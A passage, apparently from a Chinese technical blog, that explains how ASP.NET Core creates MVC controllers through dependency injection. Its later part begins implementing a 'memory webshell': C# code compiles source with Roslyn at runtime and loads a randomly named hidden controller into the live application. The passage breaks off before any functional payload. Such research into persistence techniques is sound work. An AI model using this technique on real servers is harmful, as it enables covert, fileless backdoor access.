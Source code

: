 Controller 实例化是在`ControllerActionInvoker`执行时完成的。`ControllerActionInvoker`会通过`MvcControllerFactory`来实例化 Controller，并通过依赖注入容器解析控制器构造函数中的依赖项。这个实例化过程发生在`RequestDelegate`被执行时，也就是请求开始处理的时候。

这个流程有点长，如果要调试可以在以下地方断点调试：

+ Microsoft.AspNetCore.Mvc.Routing.ControllerRequestDelegateFactory.CreateRequestDelegate
+ Microsoft.AspNetCore.Mvc.Controllers.ControllerFactoryProvider.CreateControllerFactory
+ Microsoft.AspNetCore.Mvc.Controllers.ControllerActivatorProvider.CreateActivator
+ Microsoft.AspNetCore.Mvc.Infrastructure.ControllerActionInvokerCache.GetCachedResult
+ Microsoft.AspNetCore.Mvc.Infrastructure.ResourceInvoker.InvokeAsync

![](https://cdn.nlark.com/yuque/0/2025/png/33593053/1738506371502-2d0a81b5-8353-4a17-8c62-e1a12526fcf4.png)

#### 依赖注入容器实例化
`AddControllersAsServices`是 ASP.NET Core 中的一个扩展方法，用于将 MVC 控制器注册为服务，以便能够通过依赖注入（DI）容器实例化。这意味着可以将控制器的实例化过程转交给 DI 容器，而不仅仅是通过默认的瞬态生命周期（Transient）来创建控制器。

![](https://cdn.nlark.com/yuque/0/2025/png/33593053/1738505194543-1d93a425-61f8-410f-9899-c696587ed193.png)

替换 .NET Core 中控制器激活器的默认实现为`Microsoft.AspNetCore.Mvc.Controllers.ServiceBasedControllerActivator`

![](https://cdn.nlark.com/yuque/0/2025/png/33593053/1738506135664-986e0405-6331-42a4-8ed9-cfd449883e61.png)

这个时候不但会从DI容器解析控制器的依赖项，也会解析控制器的实例。

### 内存马实现
根据上面路由表创建的过程，现在需要创建一个程序集并加载到当前应用中，这个程序集中定义Controller类，创建程序集的方法很多，这里使用Roslyn来动态编译源码：

```csharp
public Assembly Compile(string text)
{
    var appDomain = AppDomain.CurrentDomain;
    var assemblies = appDomain.GetAssemblies()
        .Where(a => !a.IsDynamic && !string.IsNullOrEmpty(a.Location))  // 检查路径是否为空
        .Select(a => a.Location)
        .ToList();
    var references =  assemblies
        .Select(location => Microsoft.CodeAnalysis.MetadataReference.CreateFromFile(location, default, null))
        .Cast<MetadataReference>()
        .ToList();
    var options = new CSharpCompilationOptions(OutputKind.DynamicallyLinkedLibrary);
    var assemblyName = "_" + Guid.NewGuid().ToString("D");
    var syntaxTrees = new SyntaxTree[] { CSharpSyntaxTree.ParseText(text) };
    var compilation = CSharpCompilation.Create(assemblyName, syntaxTrees, references, options);
    using var stream = new MemoryStream();
    var compilationResult = compilation.Emit(stream);
    if (compilationResult.Success)
    {
        stream.Seek(0, SeekOrigin.Begin);
        return Assembly.Load(stream.ToArray());
    }
    throw new InvalidOperationException("Compilation error");
}

string action_name = "_" + Guid.NewGuid().ToString("D").Replace("-", "");
string controller_name = "_" + Guid.NewGuid().ToString("D").Replace("-", "");
string sourceCode = @"
    public class %controller_name%Controller
    {
    
        public string %action_name%()
        {
            return ""ok"";
        }
```